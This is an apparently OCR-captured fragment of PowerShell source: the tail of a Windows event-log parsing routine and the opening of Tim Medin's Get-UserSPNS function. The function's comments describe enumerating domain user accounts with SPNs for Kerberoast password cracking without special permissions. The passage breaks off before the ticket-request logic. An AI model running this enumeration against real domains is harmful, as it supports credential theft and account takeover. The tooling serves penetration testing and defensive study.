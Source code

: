                 #TargetOutboundDomainName  = $Properties[23].Value
                #VirtualAccount            = $Properties[24].Value
                #TargetLinkedLogonId       = $Properties[25].Value
                #ElevatedToken             = $Properties[26].Value
            }
        }
    }
    
    
    function Get-UserSPNS {
    <#
      .SYNOPSIS
    
      # Edits by Tim Medin
      # File:     GetUserSPNS.ps1
      # Contents: Query the domain to find SPNs that use User accounts
      # Comments: This is for use with Kerberoast https://github.com/nidem/kerberoast
      #           The password hash used with Computer accounts are infeasible to 
      #           crack; however, if the User account associated with an SPN may have
      #           a crackable password. This tool will find those accounts. You do not
      #           need any special local or domain permissions to run this script. 
      #           This script on a script supplied by Microsoft (details below).
      # History:  2016/07/07     Tim Medin    Add -UniqueAccounts parameter to only get unique SAMAccountNames
    #>
      [CmdletBinding()]
      Param(
        [Parameter(Mandatory=$False,Position=1)] [string]$GCName,
        [Parameter(Mandatory=$False)] [string]$Filter,
        [Parameter(Mandatory=$False)] [switch]$Request,
        [Parameter(Mandatory=$False)] [switch]$UniqueAccounts
      )
      Write-Verbose "Enumerating user SPNs for potential Kerberoast cracking..."
      Add-Type -AssemblyName System.IdentityModel
    